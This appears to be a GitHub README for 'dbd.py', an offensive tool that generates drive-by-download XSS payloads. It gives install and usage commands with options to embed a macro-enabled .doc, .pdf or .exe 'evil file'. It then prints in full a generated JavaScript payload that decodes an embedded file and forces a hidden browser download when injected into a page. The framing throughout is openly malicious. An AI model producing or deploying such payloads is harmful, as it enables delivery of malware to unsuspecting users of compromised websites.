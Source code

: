 # dbd.py (drive-by-download)

Generate a post exploit script to download an arbitrary file using HTML5's Blob object (https://developer.mozilla.org/en-US/docs/Web/API/Blob). Say goodbye to ```alert(1)```.

# install

```shell
$ git clone https://github.com/demetrius-ford/dbd.py
$ cd dbd.py/ && pip3 install -r requirements/all.txt
```

# usage

```bash
Usage: dbd.py [OPTIONS]

  Generate a drive-by-download XSS payload.

Options:
  --version
  --extension [.doc|.pdf|.exe]
  --evil-file FILE
  --help                          Show this message and exit.
```

Create a macro-enabled document, then run:

```bash
$ python3 dbd.py --extension=".doc" --evil-file="evil.doc"
```

Generated "baddie" script with embedded file :smiling_imp:

```javascript
class MimeFactory {
  constructor(type) {
    const mimes = {
      '.doc': 'application/msword'
      , '.pdf': 'application/pdf'
      , '.exe': 'application/octet-stream'
    , }

    if (!(type in mimes)) {
      return;
    }

    this.type = mimes[type];
  }
}

((file, payload) => {
  const empty = ({
    length
  }) => length === 0;

  if (empty(file) || empty(payload)) return;

  const decoded = window.atob(payload);

  const mime = new MimeFactory(file);
  const size = payload.length;
  const link = document.createElement('a');

  const bin = new Uint8Array(size);
  for (let i = 0; i < size; i++) {
    bin[i] = decoded.charCodeAt(i);
  }

  const blob = new Blob([bin.buffer]
    , {
      type: mime.type
    });

  const url = window.URL.createObjectURL(blob);

  link.style = 'display:none;';
  link.href = url;
  link.download = file;

  document.body.appendChild(link);
  link.click();

  window.URL.revokeObjectURL(url);
  document.body.removeChild(link);

})('657hi94.doc', '...');
```
